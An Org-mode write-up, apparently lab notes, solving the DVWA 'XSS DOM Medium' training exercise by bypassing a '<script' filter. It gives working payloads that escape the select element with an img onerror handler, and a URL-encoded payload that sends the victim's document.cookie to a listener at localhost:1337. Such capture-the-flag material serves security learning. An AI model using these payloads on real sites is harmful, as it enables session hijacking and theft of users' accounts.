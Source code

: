 #+TITLE: DVWA - XSS DOM Medium
#+AUTHOR: Leonardo Tamiano

* Description
  Same setup as before, but now there's some php code which tries to
  do some input filtering.

  #+begin_src php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?>
  #+end_src
    
* Solution
  First I tried to use a different sort of tag such as ~<ScriPT~,
  however the ~stripos~ function implements a case-insensitive substring
  in a string.

  We can then try with javascript events using a payload such as

  #+begin_src html
<img src='#' onerror="alert(1);">
  #+end_src

  The problem is that our GET parameter is inserted in the option element as follows

  #+begin_src js
document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
  #+end_src

  this means that before we can add our img tags we need to break from
  the option html tag. The following payload works

  #+begin_example
http://evil/vulnerabilities/xss_d/?default=English></select><img src='x' onerror='alert(1)'>
  #+end_example

  notice here that the vulnerable part of the client javascript code
  is the code that performs

  #+begin_example
decodeURI(lang)
  #+end_example

  if it was not there, we would not be able to do it.

  ----------------

  To actually leak the user's cookie, we start a python server and we use the following payload

  #+begin_src html
<img src='#' onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', `http://localhost:1337/${document.cookie}`, false); xhr.send(null);" />
  #+end_src

  we can encode it in the following URL

  #+begin_example
http://evil/vulnerabilities/xss_d/?default=English></select><img src='#' onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', `http://localhost:1337/${document.cookie}`, false); xhr.send(null);" />
  #+end_example
